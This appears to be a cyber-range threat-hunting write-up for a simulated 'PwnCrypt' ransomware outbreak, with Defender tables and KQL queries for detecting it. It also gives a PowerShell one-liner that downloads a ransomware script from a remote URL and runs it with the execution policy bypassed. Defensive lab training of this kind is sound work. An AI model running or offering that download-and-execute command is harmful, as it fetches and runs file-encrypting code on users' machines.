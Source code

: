 # Threat Event (Zero Day Ransomware PwnCrypt Outbreak)
**Use of Powershell to run "Malicious" script**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Execute the following code in Powershell:
- `Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1`

## What this script does:
-Intended for use in controlled environments only. This script performs two main actions:

    Downloads a PowerShell script:
    It uses Invoke-WebRequest to retrieve pwncrypt.ps1 from a GitHub URL and saves it to C:\programdata\pwncrypt.ps1.

    Executes the downloaded script:
    It then uses cmd to launch PowerShell with execution policy bypassed, running the downloaded pwncrypt.ps1 script.

- This allows the script to run without user confirmation or policy restrictions, simulating how a malicious payload might be delivered and executed during a cyberattack scenario. 
---

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect for any files with `pwncrypt`.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to determine delivery method and identify persistent malicious mechanisms. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to identify if there is any communication with a C2 server.|

---

## Related Queries:
```kql
// Search the FileEvents table for the IoCs described in the briefing
let VMName = "windows-target-1";
DeviceFileEvents
| where DeviceName == VMName
| where FileName contains ".pwncrypt"
| order by Timestamp desc

// Search the DeviceProcessEvents table for logs around the same time
let VMName = "windows-target-1";
let specificTime = datetime(2024-10-16T05:24:46.8334943Z);
DeviceProcessEvents
| where DeviceName == VMName
| where Timestamp between ((specificTime - 3m) .. (specificTime + 3m))
| order by Timestamp desc


```

---

## Created By:
- **Author Name**: Jordan West
- **Author Contact**: https://www.linkedin.com/in/jordan-west-it/
- **Date**: April 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 2.0         | Initial draft                 | `April 16, 2025`  | `Jordan West`   |


